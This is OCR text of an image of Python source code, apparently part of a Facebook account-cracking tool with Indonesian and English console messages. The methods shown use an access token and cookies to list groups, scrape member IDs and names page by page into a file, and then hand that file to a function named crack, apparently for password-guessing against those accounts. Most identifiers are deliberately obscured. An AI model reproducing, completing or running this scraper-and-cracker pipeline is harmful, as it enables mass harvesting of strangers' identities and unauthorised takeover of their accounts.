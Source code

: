     def saya(self):
        self.fl=(self.id)
        try:os.remove(self.fl)
        except:pass
        print("%s [%s•%s] %sPRESS CTRL+C TO STOP DUMP"%(H,P,H,K))
        try: 
            url = "https://graph.facebook.com/me/groups?access_token={}".format(self.token)
            with _req_ses_ as ses_:
                data = ses_.get(url).json()
                for _azimvau_ in data["data"]:
                    try:self._grup_.append(_azimvau_["id"])
                    except:pass
            for _cici_ in self._grup_:
                try:self.url_grup = ("https://mbasic.facebook.com/browse/group/members/?id=%s"%(_cici_));self.exec_grup_saya();print("\n%s [%s•%s] %sSUCCESSFUL DUMP %s ID FROM MY GROUP"%(H,P,H,P,len(_azimvau_dapunta_(self.fl).read().splitlines())));return crack(self.fl)
                except KeyboardInterrupt:print("\n%s [%s•%s] %sSUCCESSFUL DUMP %s ID FROM MY GROUP"%(H,P,H,P,len(_azimvau_dapunta_(self.fl).read().splitlines())));return crack(self.fl)
                except Exception as _error_:print('\n%s [%s!%s] %sERROR IN SECTION : %s'%(M,P,M,P,_error_));_cici_cici_()
        except (KeyError,IOError):jalan('%s [%s!%s] %sCOOKIE INVALID'%(M,P,M,P));menu()
        except requests.exceptions.ConnectionError:jalan('%s [%s!%s] %sCONNECTION PROBLEM'%(M,P,M,P));menu()
        except KeyboardInterrupt:print("\n%s [%s•%s] %sSUCCESSFUL DUMP %s ID FROM MY GROUP"%(H,P,H,K,len(_azimvau_dapunta_(self.fl).read().splitlines())));return crack(self.fl)
        except Exception as _error_:print('\n%s [%s!%s] %sError Di Bagian : %s'%(M,P,M,P,_error_));_cici_cici_()
    def exec_grup_saya(self):
        global count
        with _req_ses_ as ses_:
            try:
                data = ses_.get(self.url_grup, cookies=self.cookies, headers=self.header).content;sop_dev = par(data, "html.parser");members = sop_dev.find("div", id="objects_container")
                for dev in members.find_all("table"):
                    user_ = dev["id"].replace("member_", "");nama_ = re.findall('<img alt="(.*), profile picture"', str(dev))[0]
                    try:_azimvau_dapunta_(self.fl,'a+').write(str(user_)+"•"+str(nama_)+"\n").close()
                    except:pass
                print("\r%s [%s•%s] %sTAKING %s%s ID"%(H,P,H,K,H,len(_azimvau_dapunta_(self.fl).read().splitlines())), end=' ');sys.stdout.flush()
                if "See more" in str(sop_dev):url = sop_dev.find("a", string="See more")["href"];url_grup = "https://mbasic.facebook.com"+url;self.exec_grup_saya()
            except KeyboardInterrupt:print("\n%s [%s•%s] %sSUCCESSFUL DUMP %s ID Dari Grup Saya"%(H,P,H,K,len(_azimvau_dapunta_(self.fl).read().splitlines())));return crack(self.fl)
            except Exception as _error_:print('\n%s [%s!%s] %sError Di Bagian : %s'%(M,P,M,P,_error_));_cici_cici_()
    def manual(self):
        id=_cici_azimvau_("%s [%s•%s] %sENTER GROUP ID : "%(H,P,H,K))
        if id=="":jalan('%s [%s!%s] %sINCORRECT CONTENT'%(M,P,M,P));menu()
        else:
            r=bs4.BeautifulSoup(_req_get_("https://m.facebook.com/groups/"+id,headers=header_grup,cookies=self.cookies).text,"html.parser")
            if "no content" in r.find("title").text.lower():jalan('%s [%s!%s] %sPRIVATE GROUP / WRONG ID'%(M,P,M,P));menu()
            else:
                self.listed={"id":id,"name":r.find("title").text};self.f(id);print('%s '%(O));print("%s [%s•%s] %sNAME : %s"%(H,P,H,K,self.listed.get("name")));xd = _cici_azimvau_('%s [%s•%s] %sDump ID/Username? [i/u] : '%(H,P,H,K));print("%s [%s•%s] %sPRESS CTRL+C TO STOP DUMP"%(H,P,H,K))
                if xd in ['']:jalan('%s [%s!%s] %sINCORRECT CONTENT'%(M,P,M,P));menu()
                elif xd in ['i','I','1']:
                    try:self.dump_id("https://m.facebook.com/groups/"+id);print("\n%s [%s•%s] %sSUCCESSFUL DUMP %s ID Dari %s"%(H,P,H,K,len(_azimvau_dapunta_(self.fl).read().splitlines()),self.listed.get("name")));return crack(self.fl)
